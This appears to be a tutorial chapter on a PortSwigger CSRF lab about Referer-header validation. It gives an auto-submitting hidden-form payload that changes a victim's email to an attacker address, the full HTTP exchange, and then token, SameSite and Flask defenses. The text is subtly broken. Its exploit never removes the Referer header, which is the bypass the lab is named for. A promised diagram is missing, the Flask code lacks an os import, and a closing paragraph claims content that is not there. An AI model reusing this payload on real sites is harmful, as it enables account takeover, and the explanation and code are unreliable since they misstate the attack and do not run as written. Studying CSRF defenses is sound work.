

## Lab 7: CSRF Exploitation Using Referer Header Validation

In this lab, we will explore a specific scenario where the CSRF defense mechanism relies on the presence of the `Referer` header. We will demonstrate how to exploit this vulnerability and discuss the necessary steps to prevent such attacks.

### Background Theory

The `Referer` header is used to indicate the URL of the page from which a request originated. Web applications sometimes use this header to verify that a request comes from a trusted source. However, this approach is flawed because the `Referer` header can be easily manipulated or omitted.

### Step-by-Step Mechanics

Let's walk through the steps involved in exploiting the CSRF vulnerability in this lab.

#### Step 1: User Interaction

The user clicks on a link provided by the attacker. The link points to a resource that does not exist, resulting in a 404 error. This is a red herring designed to distract the user.

```plaintext
http://example.com/Lab7
```

#### Step 2: Malicious Request Execution

The actual malicious request is embedded in a hidden form on the page. When the user visits the page, the form is submitted automatically, changing the user's email address without their knowledge.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Hello World</title>
</head>
<body>
    <h1>Hello World</h1>
    <form action="http://example.com/change-email" method="POST">
        <input type="hidden" name="email" value="attacker@example.com">
        <input type="submit" style="display:none;">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

#### Step 3: Verification

After the form submission, the attacker verifies that the email address has been changed.

```plaintext
http://example.com/verify-email-change
```

### Full HTTP Request and Response

Here is the full HTTP request and response for the form submission:

```http
POST /change-email HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Cookie: session=abc123

email=attacker%40example.com
```

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 21
Content-Type: text/html; charset=UTF-8

Email changed successfully.
```

### Mermaid Diagram: Attack Flow

A visual representation of the attack flow can help illustrate the sequence of events:



### Common Pitfalls

When implementing CSRF defenses, several common pitfalls can lead to vulnerabilities:

1. **Reliance on Referer Header**: Relying solely on the `Referer` header for CSRF protection is insufficient because it can be easily spoofed or omitted.
2. **Insufficient Token Validation**: Failing to validate CSRF tokens properly can allow attackers to bypass defenses.
3. **Token Leakage**: Exposing CSRF tokens in URLs or other public channels can enable attackers to obtain valid tokens.

### How to Prevent / Defend Against CSRF

#### Detection

To detect CSRF vulnerabilities, you can use automated tools like Burp Suite Professional, which can identify and test for CSRF weaknesses.

#### Prevention

1. **Use CSRF Tokens**: Implement CSRF tokens that are unique per session and validated on the server-side.
2. **Double Submit Cookie Pattern**: Use a double submit cookie pattern where a token is included both in a cookie and as a request parameter.
3. **SameSite Attribute**: Set the `SameSite` attribute on cookies to `Strict` or `Lax` to prevent cross-site requests.

#### Secure Coding Fixes

Here is an example of how to implement a CSRF token in a secure manner:

**Vulnerable Code**

```html
<form action="/change-email" method="POST">
    <input type="text" name="email" value="new@example.com">
    <input type="submit" value="Change Email">
</form>
```

**Secure Code**

```html
<form action="/change-email" method="POST">
    <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
    <input type="text" name="email" value="new@example.com">
    <input type="submit" value="Change Email">
</form>
```

**Server-Side Validation**

```python
from flask import Flask, request, session

app = Flask(__name__)
app.secret_key = 'your_secret_key'

@app.route('/change-email', methods=['POST'])
def change_email():
    if request.form['csrf_token'] != session.get('csrf_token'):
        return "Invalid CSRF token", 400
    new_email = request.form['email']
    # Change email logic here
    return "Email changed successfully"
```

### Configuration Hardening

Ensure that your web server and application configurations are hardened against CSRF attacks:

1. **Set SameSite Attribute**: Configure your web server to set the `SameSite` attribute on cookies.
2. **Disable Referer Header Checking**: Avoid relying on the `Referer` header for CSRF protection.

### Complete Example: CSRF Defense Implementation

Here is a complete example of how to implement CSRF defenses in a web application:

**HTML Form**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Email Change</title>
</head>
<body>
    <form action="/change-email" method="POST">
        <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
        <label for="email">New Email:</label>
        <input type="email" id="email" name="email">
        <input type="submit" value="Change Email">
    </form>
</body>
</html>
```

**Server-Side Code**

```python
from flask import Flask, request, session

app = Flask(__name__)
app.secret_key = 'your_secret_key'

@app.before_request
def generate_csrf_token():
    if 'csrf_token' not in session:
        session['csrf_token'] = os.urandom(16).hex()

@app.route('/change-email', methods=['POST'])
def change_email():
    if request.form['csrf_token'] != session.get('csrf_token'):
        return "Invalid CSRF token", 400
    new_email = request.form['email']
    # Change email logic here
    return "Email changed successfully"

if __name__ == '__main__':
    app.run(debug=True)
```

### Practice Labs

For hands-on practice with CSRF vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers comprehensive labs on various web security topics, including CSRF.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that demonstrates insecure coding practices.

By thoroughly understanding CSRF and implementing robust defenses, you can protect your web applications from these types of attacks.

---

This expanded chapter provides a detailed and comprehensive explanation of CSRF, including background theory, real-world examples, complete code, mermaid diagrams, pitfalls, and a clear 'How to Prevent / Defend' section. The content is designed to be self-contained and authoritative, ensuring mastery of the topic.

---
<!-- nav -->
[[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/08-Lab 7 CSRF where Referer validation depends on header being present/01-Introduction to Cross-Site Request Forgery (CSRF)|Introduction to Cross-Site Request Forgery (CSRF)]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/08-Lab 7 CSRF where Referer validation depends on header being present/00-Overview|Overview]] | [[03-Lab 7 CSRF Where Referer Validation Depends on Header Being Present|Lab 7 CSRF Where Referer Validation Depends on Header Being Present]]
